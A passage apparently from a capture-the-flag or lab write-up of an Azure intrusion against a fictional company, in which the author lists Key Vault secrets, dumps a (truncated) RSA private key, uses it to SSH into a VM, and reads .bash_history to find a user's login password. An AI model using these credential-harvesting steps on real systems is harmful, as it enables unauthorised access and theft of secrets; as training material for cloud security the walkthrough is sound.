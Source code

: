 Can't make much progress. Let's go for secrets. 


https://learn.microsoft.com/en-us/cli/azure/keyvault/secret?view=azure-cli-latest#az-keyvault-secret-list

```bash
az keyvault secret list --vault-name Devices-new
[
...snip...
    "id": "https://devices-new.vault.azure.net/secrets/AUTOMAT01",
    "managed": null,
    "name": "AUTOMAT01",
    "tags": {
      "file-encoding": "ascii"
    }
  }
]


az keyvault secret show --vault-name Devices-new --name AUTOMAT01
{
...snip...
  "id": "https://devices-new.vault.azure.net/secrets/AUTOMAT01/80776fe595c64551a061e38de06eedab",
...snip...
  "name": "AUTOMAT01",
  "tags": {
    "file-encoding": "ascii"
  },
  "value": "-----BEGIN RSA PRIVATE KEY-----\nMIIG4gIBAAKCAYEAupkdmQNcS8OMTjWvoUGKFRnJijGbVVPllUI0RHw4B7A2UiIw\n671wDzkHvX2pc...snip...\n-----END RSA PRIVATE KEY-----\n"
}


az keyvault secret download  --vault-name Devices-new --name AUTOMAT01 --file AUTOMAT01.pem


chmod 600 ./AUTOMAT01.pem

ssh -i AUTOMAT01.pem automation@13.68.147.240

```



# 5. Bash History!

Then got Serene's credential from Bash history!

```bash
automation@AUTOMAT01:~$ cat ./.bash_history                                                                                                                  
ls -al                                                                                                                                                       
pwd                                                                           
mkdir scripts                                                                                                                                                
az group list                                                                                                                                                
az login -u "serene@megabigtech.com" -p "*****!"    
```
